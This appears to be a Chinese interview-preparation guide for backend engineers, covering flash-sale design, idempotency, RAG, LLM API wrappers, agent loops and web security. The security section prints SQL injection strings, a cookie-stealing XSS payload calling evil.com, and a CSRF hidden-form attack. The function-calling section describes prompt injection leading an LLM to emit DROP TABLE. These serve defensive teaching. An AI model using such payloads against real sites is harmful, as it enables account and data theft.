

**面试话术**：

"秒杀系统的挑战集中在两个点：**极高的瞬时并发**（常规流量的 100-1000 倍）和**库存的精确扣减**（不能超卖也不能少卖）。

**前端层**做到三点：页面静态化（秒杀页面放 CDN，只有'开始秒杀'按钮动态控制）、按钮置灰倒计时（到点才激活，阻止提前请求）、点击后立即置灰（防止用户多点）。这些看起来是前端的事，但对于削减无效请求非常关键。

**网关层**做粗粒度限流。比如总共有 10000 件库存，预估 100 万人参与，可以在 Nginx 层按 IP 做 10 QPS 限流。同时加验证码——滑块验证码或简单算术验证码——把机器流量挡在外面。

**核心是 Redis 预减库存方案**。秒杀开始前，把库存数量加载到 Redis。用户请求来了之后：
第一步：检查布隆过滤器——这个用户是否已经抢过（防止重复参与）。
第二步：Redis 原子 DECR 减库存。如果 DECR 后小于 0，说明库存已空，直接返回'已售罄'。DECR 虽然是原子的，但检测小于 0 需要 Lua 脚本把 '判断+扣减' 绑定在一起。
第三步：通过库存检查的请求写入 MQ（RocketMQ 或 Kafka），后端订单服务消费 MQ 消息异步创建订单。
第四步：客户端轮询查询结果（不是等待同步响应）。

**为什么要异步？** 如果同步创建订单，在高并发下数据库连接池会被迅速耗尽，整个系统不可用。MQ 把瞬时峰值削平成后端能承受的速率。但也引入了新问题——用户需要轮询等待结果，体验不如同步的即时反馈。这需要权衡。

**防超卖的措施**：Redis 预减只是第一层（比数据库快两个数量级），最终的准确性靠数据库唯一约束保证。用户对同一商品的秒杀记录唯一索引 `(user_id, seckill_id)`，任何重复创建都会触发 IntegrityError。这是最后一道防线。"

---

### Q30: 接口幂等性——五种实现方案与选型

**面试话术**：

"幂等性是分布式系统的基石——在网络不稳定的环境下，客户端重试是常态。如果服务端不做幂等处理，一笔转账可能被重复扣款，一条订单可能被重复创建。

**方案 1：数据库唯一索引**——最简单也最可靠。创建一个 `idempotent_key` 字段并加唯一约束，重复请求会触发 `IntegrityError`，捕获后返回之前的结果即可。缺点是如果业务逻辑复杂，也许只有部分操作需要幂等，唯一索引的粒度不好控制。

**方案 2：Redis Token**——请求前先获取一个唯一 token，请求时携带 token。服务端用 `DEL` 命令尝试删除这个 token，删除成功说明是第一次请求，继续执行业务；删除失败说明已经处理过，直接返回之前的结果。这个方案依赖 Redis 的原子性，如果 Redis 和业务数据之间出现不一致（Redis 删除成功但业务处理失败），需要补偿逻辑。

**方案 3：状态机**——对于有明确状态流转的实体（订单：待支付→已支付→已发货），每个状态变迁都检查前置状态。如果再次收到'支付成功'回调而订单已经是'已支付'状态，直接返回成功不做任何修改。这是最自然但适用范围最窄的方案。

**方案 4：乐观锁（版本号）**——`UPDATE order SET status='paid', version=version+1 WHERE id=123 AND version=5`。版本号每次更新递增，重复请求的版本号对不上，影响行数为 0。方案简单但对读多写少的场景不太友好——大量请求会因为版本冲突而失败。

**方案 5：分布式事务号**——每笔业务生成全局唯一的 `transaction_id`，在 MQ 消费者或 RPC 调用方的代码中缓存已处理的 `transaction_id`。适合跨服务的幂等场景。

选型建议：能靠数据库唯一索引解决的就不要用 Redis Token（多个依赖多一分故障风险）；有状态流转的业务优先用状态机（最直观不需要额外基础设施）；跨服务调用用 `transaction_id` 方案配合消息去重表。"

---

## 九、AI / LLM 应用

### Q31: RAG（检索增强生成）——从文档到回答的完整链路



```python
# ===== RAG 完整流程 =====
from langchain.text_splitter import RecursiveCharacterTextSplitter
from langchain_community.embeddings import OpenAIEmbeddings
from langchain_community.vectorstores import Chroma
from langchain.chains import RetrievalQA
from langchain_community.llms import ChatOpenAI

# 1. 文档加载与切片
loader = DirectoryLoader('/data/docs', glob='**/*.md')
documents = loader.load()

splitter = RecursiveCharacterTextSplitter(
    chunk_size=500,           # 每段 500 tokens
    chunk_overlap=50,         # 段与段之间重叠 50 tokens
    separators=["\n\n", "\n", "。", ".", " "]  # 递归分隔符
)
chunks = splitter.split_documents(documents)

# 2. 向量化（Embedding）与入库
embeddings = OpenAIEmbeddings(model="text-embedding-3-small")
vectorstore = Chroma.from_documents(
    documents=chunks,
    embedding=embeddings,
    persist_directory='/data/chroma_db'
)

# 3. 检索
retriever = vectorstore.as_retriever(
    search_type="similarity",  # 或 "mmr"（最大边际相关性，去重）
    search_kwargs={"k": 5}
)

# 4. 构建 Prompt 模板
from langchain.prompts import PromptTemplate
template = """基于以下上下文回答问题。如果无法从上下文中找到答案，请说明"无法确定"。

上下文：
{context}

问题：{question}

回答："""
prompt = PromptTemplate(template=template, input_variables=["context", "question"])

# 5. 检索 + 生成
qa_chain = RetrievalQA.from_chain_type(
    llm=ChatOpenAI(model="gpt-4o", temperature=0),
    retriever=retriever,
    chain_type="stuff",
    chain_type_kwargs={"prompt": prompt},
    return_source_documents=True
)

result = qa_chain("公司的年假政策是什么？")
print(result['result'])
print(f"参考来源: {[doc.metadata['source'] for doc in result['source_documents']]}")
```

**面试话术**：

"RAG 的本质是把**检索**和**生成**两个步骤串联起来——先找到相关的上下文，再把上下文注入到 Prompt 中，让 LLM 基于真实数据回答，而不是凭空编造。

**分块策略**是整个流程的第一道关键决策。分块太大（比如 2000 tokens），检索时命中的上下文不精确，而且注入 Prompt 会挤压其他内容的空间。分块太小（比如 100 tokens），上下文不够完整，LLM 看到的只是碎片化的信息。我通常用 500 tokens + 50 tokens 重叠——512 刚好是一个 Embedding 模型的最佳输入窗口，50 的重叠保证边界处的信息不会因为被切断而丢失。

**检索质量**是 RAG 的天花板。基础的相似度检索用余弦距离，但有一个问题——Top 5 结果可能都在说同一件事（比如 5 个文档碎片都在描述'年假是 10 天'），浪费宝贵的上下文窗口。MMR（最大边际相关性）能缓解这个问题——它在相似度的基础上加了一个多样性惩罚项，保证返回的结果既有相关性又有差异性。

**RAG 的三个进阶优化**：
1. **HyDE（假设性文档嵌入）**：先用 LLM 根据问题生成一个假设性回答，再用这个回答去检索。这能把问题从'短查询'变成'完整语句'，提高语义匹配度。
2. **Re-ranking**：粗检索返回 Top 20，再用一个更强但更慢的 Cross-Encoder 模型对 20 个结果重新打分，返回 Top 5。这是目前性价比最高的检索质量优化方案。
3. **Self-querying**：把用户的自然语言问题解析为结构化过滤条件 + 语义查询。比如'2025 年上半年的技术文章'能自动加上 `date >= 2025-01-01 AND date <= 2025-06-30` 的元数据过滤器。"

---

### Q32: LLM API 调用的生产级封装——重试、降级、成本控制

```python
import openai
import asyncio
import time
from tenacity import retry, stop_after_attempt, wait_exponential

class LLMService:
    """LLM 调用封装（展示重试、降级、成本估算的核心逻辑）

    ⚠️ 生产环境直接用 litellm（统一多模型接口 + 内置重试/降级/成本追踪）
    或者 LangChain 的 ChatOpenAI + with_fallbacks()。
    自己封装的问题在于：每个新模型的 token 计价会变、重试策略要适配不同 API 的错误码、
    速率限制的窗口期不同（Anthropic 按分钟，OpenAI 按天）。
    用 litellm 可以一行切换模型，不需要改业务代码。
    """

    MODELS = {
        'complex': 'gpt-4o',       # 复杂推理
        'simple': 'gpt-4o-mini',   # 简单任务
        'embedding': 'text-embedding-3-small'
    }

    def __init__(self):
        self.client = openai.AsyncOpenAI()

    @retry(
        stop=stop_after_attempt(3),
        wait=wait_exponential(multiplier=1, min=1, max=10),
        retry=retry_if_exception_type((openai.RateLimitError, openai.APITimeoutError))
    )
    async def chat(self, messages, task_type='simple', max_tokens=1024):
        """核心调用：带重试 + 模型选择 + 超时控制"""
        model = self.MODELS[task_type]
        start = time.time()
        response = await self.client.chat.completions.create(
            model=model,
            messages=messages,
            max_tokens=max_tokens,
            temperature=0.3,              # 低温度减少随机性
            timeout=30
        )

        usage = response.usage
        return {
            'content': response.choices[0].message.content,
            'model': model,
            'tokens': {'prompt': usage.prompt_tokens, 'completion': usage.completion_tokens},
            'cost_usd': self._estimate_cost(model, usage.prompt_tokens, usage.completion_tokens),
            'latency_ms': (time.time() - start) * 1000
        }

    def _estimate_cost(self, model, prompt_tokens, completion_tokens):
        """成本估算（每百万 tokens）"""
        prices = {
            'gpt-4o': (5.0, 15.0),         # $5/1M input, $15/1M output
            'gpt-4o-mini': (0.15, 0.6),
            'text-embedding-3-small': (0.02, 0)
        }
        input_price, output_price = prices.get(model, (0, 0))
        return (prompt_tokens / 1e6) * input_price + (completion_tokens / 1e6) * output_price

    async def chat_with_fallback(self, messages):
        """降级策略：主力模型不可用时使用备用模型"""
        try:
            return await self.chat(messages, task_type='complex')
        except Exception as e:
            # GPT-4o 不可用 → 降级到 GPT-4o-mini
            return await self.chat(messages, task_type='simple')


# ===== 实际开发中直接用 litellm（一行切换模型 + 自动重试降级） =====
# pip install litellm
import litellm

# 1. 基础调用——自动重试 + 指数退避 + 超时
response = litellm.completion(
    model="gpt-4o",
    messages=[{"role": "user", "content": "Hello"}],
    num_retries=3,         # 自动重试（仅对 RateLimitError/Timeout 重试）
    timeout=30
)

# 2. 模型降级——GPT-4o 不可用时自动切到 Claude
response = litellm.completion(
    model="gpt-4o",
    messages=[{"role": "user", "content": "Hello"}],
    fallbacks=["claude-sonnet-4-6"]  # 一行实现降级
)

# 3. 成本追踪（内置，无需手写 _estimate_cost）
litellm.success_callback = [lambda kwargs: log_cost(kwargs)]  # 每次调用后自动触发
litellm.failure_callback = [lambda kwargs: alert_failure(kwargs)]

# 4. 切换模型只需改 model 参数，其余代码零改动
# response = litellm.completion(model="claude-sonnet-4-6", messages=...)  # 切 Anthropic
# response = litellm.completion(model="openrouter/qwen-max", messages=...)  # 切通义千问

# 对比：手写 LLMService 60 行（只支持 OpenAI） vs litellm 3 行（支持 100+ 模型）
# 自己封装的痛点：每个新模型的速率限制窗口不同、token 计价会变、
# 不同 API 的错误码格式不一致——这些 litellm 已经全部处理了
```

**面试话术**：

"调用 LLM API 和调用普通 API 有本质区别——LLM API 的延迟波动大（200ms 到 20s 都有可能）、有速率限制、而且没有 SLA 保障。所以生产级的封装需要考虑四个维度：

1. **重试策略**：只对可重试的错误重试。429 Rate Limit 和超时是可以重试的，但 400 Bad Request（你的请求格式错误）和 401 Unauthorized（你的 API Key 不对）重试没有意义。用指数退避——第一次等 1 秒，第二次 2 秒，第三次 4 秒——避免雪上加霜。

2. **模型降级**：核心功能准备两条链路——主力模型（GPT-4o）不可用时，自动切换到备用模型（GPT-4o-mini 或私有部署的开源模型）。备用模型的能力可能弱一些，但至少服务不中断。

3. **成本追踪**：LLM 的成本是按 token 计的，看似便宜（$5/百万 tokens），但积少成多。每次调用记录 prompt_tokens + completion_tokens + 估算费用，写入监控系统。设置日预算告警——当日累计费用超过阈值时通知并限制调用量。

4. **并发控制**：LLM 的速率限制是每分钟 token 数（不是请求数）。如果你的并发请求太多，会频繁触发 429。在生产中我会限制同时发出的 LLM 请求不超过 10 个，用信号量或队列来做并发控制。"

---

### Q33: Function Calling 的原理与安全隐患

```python
import json

# ===== 工具定义 =====
TOOLS = [
    {
        "type": "function",
        "function": {
            "name": "query_database",
            "description": "执行只读 SQL 查询",
            "parameters": {
                "type": "object",
                "properties": {
                    "query": {
                        "type": "string",
                        "description": "SELECT 查询语句"
                    }
                },
                "required": ["query"]
            }
        }
    },
    {
        "type": "function",
        "function": {
            "name": "send_email",
            "description": "发送邮件",
            "parameters": {
                "type": "object",
                "properties": {
                    "to": {"type": "string", "format": "email"},
                    "subject": {"type": "string"},
                    "body": {"type": "string"}
                },
                "required": ["to", "subject", "body"]
            }
        }
    }
]

# ===== 安全的 Function Calling 实现 =====
class SafeFunctionCaller:
    """Function Calling 安全沙箱（这类安全代码需要自己实现，不能用通用库）

    和分布式锁/限流器不同——安全校验是业务特定的，第三方库不知道你的表名白名单、
    收件人域名限制等业务规则。所以你确实需要自己写这个 wrapper 来定义安全边界。
    但 SQL 过滤部分可以用 sqlparse 库做语法解析，比自己写正则/字符串匹配更可靠。
    """

    ALLOWED_TABLES = {'orders', 'users', 'products'}  # 白名单

    def execute(self, tool_name, arguments):
        if tool_name == 'query_database':
            return self._safe_query(arguments['query'])
        elif tool_name == 'send_email':
            return self._safe_send(arguments['to'], arguments['subject'], arguments['body'])
        else:
            raise ValueError(f"未知工具: {tool_name}")

    def _safe_query(self, query):
        query_upper = query.upper().strip()
        # 1. 只允许 SELECT
        if not query_upper.startswith('SELECT'):
            raise ValueError("只允许 SELECT 查询")
        # 2. 检查表名白名单
        for table in self.ALLOWED_TABLES:
            if table not in query.lower():
                continue
        # 3. 禁止危险关键字
        forbidden = ['DROP', 'DELETE', 'INSERT', 'UPDATE', 'ALTER', 'EXEC']
        for keyword in forbidden:
            if keyword in query_upper:
                raise ValueError(f"禁止的关键字: {keyword}")
        # 4. 限制返回行数
        query = query.rstrip(';') + ' LIMIT 100'
        return db.execute(query)

    def _safe_send(self, to, subject, body):
        # 校验邮件地址格式
        if '@' not in to or not to.endswith('@company.com'):
            raise ValueError("只能向公司内部邮箱发送")
        return email_service.send(to, subject, body)
```

**面试话术**：

"Function Calling 的机制很优雅——你给 LLM 定义一组工具和参数格式，LLM 根据用户意图决定需要调用哪个工具，返回工具名和参数给你。但**LLM 不执行任何代码**——它只是输出一个 JSON 对象，你的服务代码解析这个 JSON 并真正执行。这是关键的安全边界。

**最大的安全隐患**是直接执行 LLM 返回的代码或 SQL。用户对 LLM 说'帮我查一下今年的销售总额'，LLM 生成 `SELECT SUM(amount) FROM orders WHERE year=2026`，如果你不做任何校验就把这个 SQL 发给数据库，那恶意用户可以通过精心设计的 prompt 让 LLM 生成 `DROP TABLE orders`——这就是 Prompt Injection 攻击。即使 LLM 本身不会恶意生成危险 SQL，错误或对抗性输入仍然有可能。

防御措施有四层：
- **只允许只读操作**（禁止 INSERT/UPDATE/DELETE/DROP）
- **表名白名单**（只允许访问指定的表）
- **返回行数限制**（强制 LIMIT 100）
- **权限最小化**（直连数据库的用户只有 SELECT 权限，没有 DDL 权限）

还有一个容易被忽视的点——**邮件发送的收件人限制**。LLM 生成的邮件地址可能是任意地址，如果没有限制，用户可以让你的系统向任何邮箱发送任何内容。生产环境必须限制收件人域名为公司域名。"

---

### Q34: AI Agent 架构——ReAct 模式与工具调用循环



```python
class ReActAgent:
    """ReAct Agent 原理实现（面试展示用）

    ⚠️ 生产环境不要从零写 Agent 循环——直接用 LangChain 的 AgentExecutor 或 LlamaIndex 的 ReActAgent。
    框架已经处理了输出解析（OutputParser）、错误重试、并发控制、工具超时等边界条件，
    比自己写可靠得多。你展示这段代码是为了证明自己理解 Thought→Action→Observation 循环的底层机制，
    而不是说要在生产环境自己实现它。
    """

    SYSTEM_PROMPT = """你是一个能使用工具的 AI 助手。请按以下格式回复：

Question: 用户的问题
Thought: 我需要思考接下来怎么做
Action: 工具名称
Action Input: 工具参数（JSON 格式）
Observation: 工具返回的结果
...（重复 Thought/Action/Action Input/Observation 直到得到最终答案）
Thought: 我现在有足够的信息回答用户了
Final Answer: 给用户的最终回复"""

    def __init__(self, llm, tools):
        self.llm = llm
        self.tools = {t.name: t for t in tools}
        self.max_iterations = 10  # 防止无限循环

    def run(self, query):
        messages = [{"role": "system", "content": self.SYSTEM_PROMPT}]
        messages.append({"role": "user", "content": f"Question: {query}"})

        for _ in range(self.max_iterations):
            response = self.llm.chat(messages)

            if "Final Answer:" in response:
                return response.split("Final Answer:")[-1].strip()

            if "Action:" in response and "Action Input:" in response:
                # 解析工具调用
                action = self._extract(response, "Action:")
                action_input = self._extract(response, "Action Input:")

                if action in self.tools:
                    observation = self.tools[action].run(json.loads(action_input))
                    messages.append({"role": "assistant", "content": response})
                    messages.append({"role": "user", "content": f"Observation: {observation}"})
                    continue

            # 如果 LLM 的输出不符合格式，将错误反馈给它
            messages.append({"role": "user", "content": "请按 Thought/Action/Observation 格式回复"})

        return "Agent 达到最大迭代次数，未得到最终答案"

    def _extract(self, text, tag):
        """从回复中提取指定标签后的内容"""
        import re
        pattern = f"{tag}(.*?)(?:$|\\n(?:Thought|Action|Observation|Final Answer):)"
        match = re.search(pattern, text, re.DOTALL)
        return match.group(1).strip() if match else ""


# ===== 实际开发中直接用 LangChain AgentExecutor =====
# pip install langchain langchain-openai
from langchain_openai import ChatOpenAI
from langchain.agents import AgentExecutor, create_openai_functions_agent
from langchain.tools import tool

# 1. 定义工具（用 @tool 装饰器，比手写工具类简洁）
@tool
def search_knowledge_base(query: str) -> str:
    """搜索内部知识库，返回相关文档内容"""
    return vectorstore.similarity_search(query, k=3)

@tool
def query_database(query: str) -> str:
    """执行只读 SQL 查询（仅允许 SELECT）"""
    return db.execute(query)

# 2. 一行创建 Agent——框架自动处理 Thought→Action→Observation 循环
llm = ChatOpenAI(model="gpt-4o", temperature=0)
tools = [search_knowledge_base, query_database]

agent = create_openai_functions_agent(llm, tools, prompt)
executor = AgentExecutor(
    agent=agent,
    tools=tools,
    max_iterations=10,        # 防止死循环（和我们手写的一样）
    verbose=True,             # 打印每一步的推理过程
    handle_parsing_errors=True  # 输出解析失败时自动重试
)

result = executor.invoke({"input": "帮我查一下上周的订单总数"})
# 自动循环，直到 LLM 输出 Final Answer——和手写 ReAct 逻辑一样，
# 但不需要自己写正则解析、错误重试、超时处理

# 对比：手写 60 行 ReActAgent vs LangChain 10 行——少写的 50 行正是边界条件的坑
```

**面试话术**：

"Agent 和普通 LLM 调用的区别在于**自主决策**和**工具使用**。普通调用是'你问我答'的单轮模式，Agent 是多轮的推理-执行-观察循环。

**ReAct 模式**（Reasoning + Acting）是目前 Agent 的主流范式。每一轮，LLM 输出一个思考过程——'我需要调用搜索引擎来获取今年的最新数据'，然后输出一个行动——`Action: search, Action Input: {"query": "2026年..."}`。你的系统执行这个行动，把结果拼接成 `Observation: ...` 回传给 LLM。LLM 根据观察决定下一步——如果信息够了就输出 Final Answer，如果不够就继续思考和行动。

实现上需要解决三个挑战：

**第一个是输出解析**。LLM 不是 API，它返回的是自然语言。你需要用正则表达式或者 Function Calling 机制把它输出的结构化部分提取出来。用 Function Calling 比正则可靠得多——它直接返回一个 JSON 对象，不会出现格式错误或者解析失败的问题。

**第二个是死循环防护**。Agent 可能在一个问题上反复尝试同一个工具但始终成功不了。必须设置最大迭代次数（我设 10 轮），并且检测是否在重复之前的行动——如果是，提前终止并告知用户。

**第三个是工具描述的质量**。工具的描述直接决定了 LLM 能不能正确使用它。描述要精确到参数类型、返回值格式、适用场景，甚至要给几个示例。一个写得不清晰的工具描述，LLM 要么不会用，要么用错。

Agent 的应用场景：客服机器人（查询订单→查物流→办理退款）、数据分析助手（写 SQL→执行→画图表）、代码助手（搜索文档→生成代码→运行验证）。"

---

## 十、综合题

### Q35: 介绍你做过的最复杂的后端系统

**面试话术模板**（根据实际项目替换细节）：

"我做过最复杂的系统是一个日千万级交易量的电商后端的架构升级。

**业务背景**：原来的单体 Django 系统在日订单突破 500 万后开始频繁告警——接口响应时间从 50ms 飙升到 2s，数据库 CPU 持续 90% 以上。

**我的架构改造方案分三步走**：

第一步是数据库分库。按照 user_id 取模分成 4 个分片，每个分片独立部署在独立的物理机上。同时在业务层实现读写分离——主库负责写入，从库负责读取，分担了约 70% 的查询压力。

第二步是引入缓存层。Redis 集群做热点数据缓存和 Session 存储。热点商品信息缓存命中率达到 95%，数据库查询量下降了 8 倍。分布式锁解决了库存扣减的并发安全问题。

第三步是整个基础设施从手动部署迁移到 K8s + CI/CD。用 Jenkins Pipeline 实现了从代码提交到金丝雀发布的全自动化流程，部署时间从 2 小时降到 15 分钟，回滚时间降到 30 秒。

**核心挑战和解决方案**：
- 分库后跨分片查询——用 Elasticsearch 做搜索索引冗余，跨分片搜索走 ES，详情才回 MySQL。
- 秒杀期间的流量洪峰——Redis 预减库存 + RocketMQ 异步下单 + 网关层限流，把峰值 QPS 从 20 万削到 5000。
- CI/CD 部署过程中的数据一致性——数据库迁移脚本向后兼容，分两步部署（先加字段后删旧代码），回滚不需要回滚数据库。

**量化成果**：支撑了日均 1000 万订单，P99 接口延迟从 2s 降到 120ms，数据库 CPU 从 90% 降到 30%，全年无重大线上故障。"

---

### Q36: 线上故障排查——从收到告警到恢复服务



**面试话术**：

"线上排查我遵循一条标准 SOP，目标是在黄金 5 分钟内完成止血：

**第 1 分钟：确认影响范围**。打开 Grafana 仪表盘，看错误率、延迟、QPS 三条曲线的变化时间点。如果是最近 5 分钟突变的，极可能是新发布引起的。同时看 Prometheus Alert 的具体信息——是 5xx 错误率、CPU 飙升、还是数据库连接池耗尽。

**第 2 分钟：快速止损**。如果是新版本发布后出现的，毫不犹豫执行 `kubectl rollout undo` 回滚到上一个版本。不要在这个阶段花时间分析根因——先恢复服务，再排查问题。

**第 3-4 分钟：定位问题**。如果回滚解决了，说明问题在新代码中——查看 ELK 中错误日志的 trace_id，追踪具体是哪行代码抛的异常。如果回滚没解决，说明是基础设施问题——数据库慢查询、Redis 内存满了、磁盘空间不足、网络分区。

**第 5 分钟：写事故通报**。简要描述影响范围、根因（如果是已知的）、当前状态（已恢复/处理中/需要帮助）。目的是让其他团队成员知道发生了什么以及是否需要介入。

事后复盘分四个部分：
- **时间线**：精确到分钟的事件顺序
- **根因**：用 5 Why 法追到根本原因（不只是'代码 bug'，而是为什么 bug 没被测试发现）
- **改进**：具体可执行的动作（加监控告警、加单元测试、改发布流程）
- **定责不追责**：重点是预防再次发生，不是追责个人"

---

---

## 十一、后端安全防范措施

### Q1: SQL 注入是什么？怎么防御？

**攻击原理：** 用户输入被直接拼接到 SQL 语句中，攻击者在输入框里写 `'; DROP TABLE users; --`，拼接后变成 `SELECT * FROM users WHERE name = ''; DROP TABLE users; --'`，数据库执行了攻击者的 SQL。

```python
# ❌ 危险写法：字符串拼接
user_input = request.GET.get("name")
sql = f"SELECT * FROM users WHERE name = '{user_input}'"
cursor.execute(sql)
# 攻击输入: ' OR 1=1 --
# 结果: SELECT * FROM users WHERE name = '' OR 1=1 --'
#       返回所有用户！

# ✅ 安全写法：参数化查询
user_input = request.GET.get("name")
cursor.execute("SELECT * FROM users WHERE name = %s", (user_input,))
# %s 是占位符，PyMySQL 自动转义，用户输入永远被当作"数据"而非"SQL语句"
```

**面试话术：**

> "SQL 注入的核心是**数据和代码的混淆**——用户输入被当成 SQL 代码执行。防御手段只有一个：参数化查询（Parameterized Query）。不管用什么 ORM（Django ORM、SQLAlchemy），它们底层都做了参数化，所以**只要你不手拼 SQL 字符串，就是安全的**。如果必须手写 SQL（复杂报表），**永远用 `%s` 占位符 + 参数元组**，绝不用 f-string 或 `+` 拼接。ORM 的 `.raw()` 方法也要传参数而非拼接。"

---

### Q2: XSS 跨站脚本攻击是什么？前后端分别如何防御？

**攻击原理：** 攻击者在输入框提交 `<script>alert('盗取cookie')</script>`，如果后端存入数据库后前端直接渲染这段 HTML，浏览器会执行这段脚本，盗取用户数据。

```python
# 攻击流程
# 1. 攻击者在用户名的输入框中输入:
#    <script>fetch('http://evil.com?c='+document.cookie)</script>
# 2. 后端存入数据库
# 3. 其他用户访问用户列表页时，浏览器执行了这段脚本
# 4. cookie 被发送到攻击者的服务器
```

**后端防御——输出编码：**

```python
import html

# ❌ 危险：直接返回用户输入
@app.get("/comments")
def list_comments():
    comments = db.query("SELECT content FROM comments")
    return [{"content": c["content"]} for c in comments]
    # 如果 content 是 <script>alert(1)</script>，前端直接渲染就中招

# ✅ 安全：转义 HTML 特殊字符
@app.get("/comments")
def list_comments():
    comments = db.query("SELECT content FROM comments")
    return [{"content": html.escape(c["content"])} for c in comments]
    # <script> 变成 &lt;script&gt; 被当成文本显示，不执行
```

**前端防御（Vue 自动做了）：**

```javascript
// Vue 默认转义: {{ userContent }} → 安全（自动转义 HTML）
// ❌ v-html 不做转义: <div v-html="userContent"> → 危险！
// ✅ 如果必须用 v-html: 先通过 DOMPurify 过滤
import DOMPurify from 'dompurify';
const sanitized = DOMPurify.sanitize(userContent);
```

**面试话术：**

> "XSS 的核心是**把数据当成代码执行**。防御分两层——后端输出时 `html.escape()` 转义，前端避免 `v-html` / `innerHTML`，如果必须用，先过 DOMPurify。Vue/React 默认对 `{{ }}` 做了 HTML 转义，所以大部分 XSS 在前端框架里已经被防住了。真正危险的是富文本编辑器、用户签名等允许 HTML 的场景。"

---

### Q3: CSRF 跨站请求伪造是什么？如何防御？

**攻击原理：** 用户已登录银行网站 A，攻击者诱导用户访问恶意网站 B。网站 B 的页面上有一个隐藏的表单，自动向网站 A 发起转账请求。因为用户已登录（cookie 还在），浏览器自动带上 cookie，银行以为是用户本人在操作。

```
1. 用户登录 bank.com，获得 session cookie
2. 用户在另一个标签页访问 evil.com（钓鱼邮件链接）
3. evil.com 页面有如下隐藏表单:
   <form action="https://bank.com/transfer" method="POST">
     <input type="hidden" name="to" value="attacker">
     <input type="hidden" name="amount" value="10000">
   </form>
   <script>document.forms[0].submit()</script>
4. 浏览器自动带上 bank.com 的 cookie，转账成功
```

**防御——CSRF Token：**

```python
# Django 内置 CSRF 中间件（默认开启）
# settings.py
MIDDLEWARE = [
    "django.middleware.csrf.CsrfViewMiddleware",  # 检测 POST 请求的 csrfmiddlewaretoken
]

# 前端表单必须包含:
# <form method="POST">
#   
# </form>

# API 场景（前后端分离）：用双重 Cookie 或自定义请求头
# 1. 服务端在登录时设置一个随机 token 到 cookie
# 2. 前端 JS 读取 cookie 值，放到请求头 X-CSRFToken
# 3. 服务端比对 cookie 和请求头中的 token，一致才放行
```

**防御——SameSite Cookie：**

```python
# Django settings.py
CSRF_COOKIE_SAMESITE = "Strict"  # 或 "Lax"
SESSION_COOKIE_SAMESITE = "Strict"

# Strict:  任何跨站请求都不发送 cookie（最安全）
